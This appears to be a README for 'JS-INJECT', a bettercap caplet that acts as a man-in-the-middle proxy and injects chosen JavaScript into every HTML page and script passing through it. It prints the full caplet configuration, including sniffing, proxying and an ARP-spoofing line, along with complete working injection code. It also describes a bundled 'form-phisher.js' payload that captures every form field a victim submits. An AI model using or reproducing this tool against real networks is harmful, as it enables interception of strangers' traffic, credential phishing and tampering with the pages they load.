 ### JS-INJECT

A simple yet powerful proxy module that lets you inject your JavaScript payloads into any HTTP web page/application.

It prevents re-initiation of your script when it's already active in the DOM by declaring your payload as a unique function variable, and it ignores the `X-Content-Type-Options: nosniff` header by checking for both `Content-Type` headers and file extensions.

All you have to do is set your payload path in the caplet file.

**caplets/jsinject/jsinject.cap**

```sh
# Set the path to your JavaScript payload
set jsinject.payload caplets/jsinject/payloads/form-phisher.js

set http.proxy.script caplets/jsinject/jsinject.js
set net.sniff.verbose false
net.sniff on
http.proxy on
#arp.spoof on
```

**caplets/jsinject/jsinject.js**

```javascript
var session_id,
    payload,
    payload_path,
    payload_container = "" + 
    	"if (!self.{{session_id}}) {\n" + 
    		"var {{session_id}} = function() {\n" + 
    			"{{payload}}\n" + 
    		"}\n" + 
    		"{{session_id}}();\n" + 
    	"}\n"

var green = "\033[32m",
    bold  = "\033[1;37m",
    reset = "\033[0m"

function randomString(length) {
	var chars  = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz",
	    buffer = ""
	while (buffer.length < length) {
		index = parseInt( Math.random() * chars.length )
		buffer = buffer + chars.charAt(index)
	}
	return buffer
}

function configure() {
	payload_path = env("jsinject.payload").replace(/\s*/g, "")
	payload = readFile(payload_path)
	payload = payload_container.replace("{{payload}}", payload).replace(/\{\{session_id\}\}/g, session_id)
}

function onLoad() {
	session_id = randomString( 4 + parseInt( Math.random() * 16 ) )
	configure()
	log_info(green + "jsinject" + reset + " started injecting payload " + bold + payload_path + reset + " into HTTP traffic.")
	log_info(green + "jsinject" + reset + " session ID is " + bold + session_id + reset + ".")
}

function onResponse(req, res) {
	configure()
	if ( res.ContentType.match(/^text\/html/i) || req.Path.replace(/\?.*/i, "").match(/\.(htm|html)$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject HTML document in " + bold + req.Hostname + reset + " ...")
		res.Body = res.Body.replace(/<head>/i, "<head><script>" + payload + "</script>")
	}
	if ( res.ContentType.match(/^text\/javascript/i) || res.ContentType.match(/^application\/javascript/i) || req.Path.replace(/\?.*/i, "").match(/\.js$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject JS document in " + bold + req.Hostname + reset + " ...")
		res.Body = payload + res.Body
	}
}
```

<hr>

### Included payload

**form-phisher.js** is included, which will wait for the victim to press a key before binding to the enter key and mouse click/screen tap in order to phish all the fields. This can be useful when you want to sniff proxied forms that are submitted over HTTPS, don't use URL parameters, etc.
